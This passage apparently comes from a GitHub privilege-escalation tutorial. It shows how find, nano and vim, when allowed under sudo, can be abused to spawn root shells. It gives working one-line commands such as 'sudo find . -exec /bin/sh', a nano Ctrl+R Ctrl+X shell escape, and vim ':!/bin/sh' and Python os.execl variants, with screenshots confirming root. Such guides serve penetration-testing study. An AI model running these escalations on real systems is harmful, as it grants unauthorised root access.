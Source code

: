 This will grant root access to the machine!

![image](https://user-images.githubusercontent.com/14150485/172013044-6373b96c-10c0-468e-ac85-605b1c551990.png)

<br />

**find**
--------

<br />

*If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

`sudo find . -exec /bin/sh \; -quit`

![image](https://user-images.githubusercontent.com/14150485/172013238-7a66d7ba-f032-49f9-a4ad-11a31378b90d.png)

<br />

**nano**
--------

<br />

*If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

`sudo nano`
<br />
`^R^X` - `^R` in this case being `Ctrl + R`, which enables a dialog box in the application, and `^X` being `Ctrl + X` that enables command execution.
<br />
`reset; sh 1>&0 2>&0`

![image](https://user-images.githubusercontent.com/14150485/172014033-8ed77c1d-c3e8-40d8-9051-d6c116811d85.png)

After executing the command, any user input is not displayed in nano which can make it a little hard for us to see what it really does, however the above steps do grant root access to the target. We can confirm this by cleaning the active window using the `clear` command and then checking the active user using `whoami`.

![image](https://user-images.githubusercontent.com/14150485/172014113-282340b7-894c-47b5-b796-758ee6beb9f2.png)

<br />

**vim**
-------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

*(a) ```sudo vim -c ':!/bin/sh'```*

*(b) This requires that vim is compiled with Python support. Prepend :py3 for Python 3.*
<br />
*```sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'```*
